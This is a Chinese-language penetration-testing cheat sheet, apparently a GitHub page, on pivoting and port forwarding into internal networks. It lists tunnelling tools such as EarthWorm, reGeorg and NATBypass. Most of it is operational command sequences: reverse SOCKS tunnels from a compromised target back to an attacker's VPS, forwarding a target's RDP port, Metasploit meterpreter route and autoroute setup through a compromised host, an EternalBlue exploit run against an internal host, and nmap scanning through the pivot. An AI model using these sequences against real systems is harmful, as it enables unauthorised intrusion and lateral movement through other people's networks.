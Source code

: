# 跳板和端口转发

## 常用软件
1. Earthworm     工具网址：http://rootkiter.com/EarthWorm 

EW 是一套便携式的网络穿透工具，具有 SOCKS v5服务架设和端口转发两大核心功能，可在复杂网络环境下完成网络穿透。该工具能够以“正向”、“反向”、“多级级联”等方式打通一条网络隧道，直达网络深处，用蚯蚓独有的手段突破网络限制，给防火墙松土。工具包中提供了多种可执行文件，以适用不同的操作系统，Linux、Windows、MacOS、Arm-Linux 均被包括其内,强烈推荐使用。

2.reGeorg         工具网址：https://github.com/lotus-wu/reGeorg

reGeorg是reDuh的升级版，主要是把内网服务器的端口通过http/https隧道转发到本机，形成一个回路。用于目标服务器在内网或做了端口策略的情况下连接目标服务器内部开放端口。它利用webshell建立一个socks代理进行内网穿透，服务器必须支持aspx、php或jsp这些web程序中的一种。

3.sSocks          工具网址：http://sourceforge.net/projects/ssocks/ 

sSocks是一个socks代理工具套装，可用来开启socks代理服务，支持socks5验证，支持IPV6和UDP，并提供反向socks代理服务，即将远程计算机作为socks代理服务端，反弹回本地，极大方便内网的渗透测试，其最新版为0.0.14。

4.SocksCap64     工具网址：https://sourceforge.net/projects/sockscap64/files/

SocksCap64是一款在windows下相当好使的全局代理软件。SocksCap64可以使Windows应用程序通过SOCKS代理服务器来访问网络而不需要对这些应用程序做任何修改, 即使某些本身不支持SOCKS代理的应用程序通过SocksCap64之后都可以完美的实现代理访问。

5.proxychains     工具网址：http://proxychains.sourceforge.net/ 

Proxychains是一款在LINUX下可以实现全局代理的软件，性能相当稳定可靠。在使任何程序通過代理上網，允許TCP和DNS通過代理隧道，支持HTTP、SOCKS4、SOCKS5類型的代理服務器，支持proxy chain，即可配置多個代理，同一個proxy chain可使用不同類型的代理服務器。

6. portroute https://github.com/lotus-wu/portroute

7. NATBypass https://github.com/lotus-wu/NATBypass 
仿lcx的工具

## 根据场景

### 场景1
mypc[能连myVPS]<---->myVPS[公网IP]<--->destination[能连接myVPS]
* 场景1目的：要求目标机reverse_tcp连接到mypc上7777端口

------

* 用protroute
* myVPS : ./center  建立中央服务器
* mypc : ./forward -center=vps-ip:3600 -tunnel=123456
* myVPS : ./proxy -center=127.0.0.1:3600 -tunnel=123456 并设置监听和转接信息
* destination 连接 myVPS proxy开放的端口

-----
* 推荐：
* 用NATBypass (仿lcx)
* myVPS: ./NATBypass -listen 3344 4444
* mypc: ./NATBypass -slave vps-ip:3344 127.0.0.1:7777   #外面来的数据会转发到本地7777端口
* destination 连接 myVPS 4444端口

### 场景2
mypc[能连myVPS]<---->myVPS[公网IP]<--->destination[能连接myVPS]
* 连接目标3389端口

----
* 用NATBypass (仿lcx)
* myVPS: ./NATBypass -listen 3344 4444
* destination ./NATBypass -slave vps-ip:3344 127.0.0.1:3389
* mypc 连接 myVPS的4444端口就能访问对方的3389


----

## 使用meterpreter路由

使用route命令可以借助meterpreter会话进一步msf渗透内网，我们已经拿下并产生meterpreter反弹会话的主机可能出于内网之中，外有一层NAT，我们无法直接向其内网中其他主机发起攻击，则可以借助已产生的meterpreter会话作为路由跳板，攻击内网其它主机。

```
//可以先使用run  get_local_subnets命令查看已拿下的目标主机的内网IP段情况
meterpreter > run get_local_subnets
Local subnet: 10.10.10.0/255.255.255.0
Local subnet: 192.168.10.0/255.255.255.0

meterpreter>background

//下面做一条路由，下一跳为当前拿下主机的session id（目前为1），即所有对10网段的攻击流量都通过已渗透的这台目标主机的meterpreter会话来传递。
msf>route add 10.10.10.0 255.255.255.0 1

//再使用route print查看一下路由表
msf exploit(multi/handler) > route print

IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   10.10.10.0         255.255.255.0      Session 1

[*] There are currently no IPv6 routes defined.
```
最后我们就可以通过这条路由，以当前拿下的主机meterpreter作为路由跳板攻击10网段中另一台有ms17_010漏洞的主机，获得反弹会话成功顺利拿下了另一台内网主机10.10.10.132
```
msf exploit(windows/smb/ms17_010_eternalblue) > set RHOST 10.10.10.132
RHOST => 10.10.10.132
msf exploit(windows/smb/ms17_010_eternalblue) > set LHOST 192.168.10.131
LHOST => 192.168.10.131
msf exploit(windows/smb/ms17_010_eternalblue) > set LPORT 4444
LPORT => 4444
msf exploit(windows/smb/ms17_010_eternalblue) > run
```

## 使用meterpreter路由方法2
确定目标机器有多个网卡后，快速添加路由
```
meterpreter > run autoroute -s 7.7.7.0/24
meterpreter > run autoroute -p
meterpreter > run post/windows/gather/arp_scanner RHOSTS=7.7.7.0/24
```
通过中转跳板进行Nmap扫描 [实验失败，原因待查][先用db_nmap 会走路由]
对此必须在Metasploit中激活路由配置，并且该配置必须能够通过socks4代理进行转发。这里有一个metasploit模块刚好满足以上需求。
使用metasploit的socks4代理模块： 
```
meterpreter > background
msf > use auxiliary/server/socks4a
msf auxiliary(socks4a) > set srvhost 172.16.0.20  //这个设置哪个IP？本机似乎没有代理成功
msf auxiliary(socks4a) > run
```
这样就在本地起了socks4代理，然后用proxychains工具代理nmap 扫描

## 使用ew

### 目标有公网IP [正向socks v5服务器]
* 目标： ew -s ssocksd -l 888
* 渗透者：使用socks客户端通过该IP代理

### 目标无公网IP，可以访问内网资源 [反弹socks v5服务器]
mypc<---->my公网VPS<---->目标

* 公网VPS：ew -s rcsocks -l 1080 -e 888
* 目标：ew  -s rssocks -d 公网VPS-IP -e 888
* 渗透者：连接VPS 1080
* 公网VPS 提示“rssocks cmd_socket OK!”表示建立了连接

* ----linux
* 渗透者: vi /etc/proxychains.conf 
* 在最后一行[ProxyList]后添加"socks5 127.0.0.1 1080"
* proxychains xxxx

* ----windows
* 渗透者：SocksCap64.exe
### 二级网络环境（一）
mypc<--firewall-->A server[公网IP，内网IP]<---->B Server[内网IP]

* B Server: ew -s ssocksd -l 888
* A Server: ew -s lcx_tran -l 1080 -f B-Server-Ip -g 888
该命令意思是将1080端口收到的代理请求转交给B Server的888端口。
* mypc 可以访问A Server的公网IP的1080口来使用B Server上架设的socks5代理

### 二级网络环境（二）
mypc<--->my公网VPS<--firewall-->A Server[内网IP]<---->B Server[内网IP，不能访问外网]

* 公网VPS： ew -s lcx_listen -l 10800 -e 888
该命令意思是在公网VPS添加转接隧道，将10800端口收到的代理请求转交给888端口。
* B Server: ew -s ssocksd -l 999
* A Server: ew -s lcx_slave -d VPS-IP -e 888 -f B-IP -g 999
该命令意思是在A主机上利用lcx_slave方式，将公网VPS的888端口和B主机的999端口连接起来。
*现在就可以通过访问公网VPS地址:10800来使用在B主机架设的socks5代理。

## 使用Termite

* 根据官网的视频介绍，功能很强大，但是实验中发现，出错时不会报任何错误信息、而且功能不稳定。
* 可以参考他的思路，用GO语言写一个工具 TODO
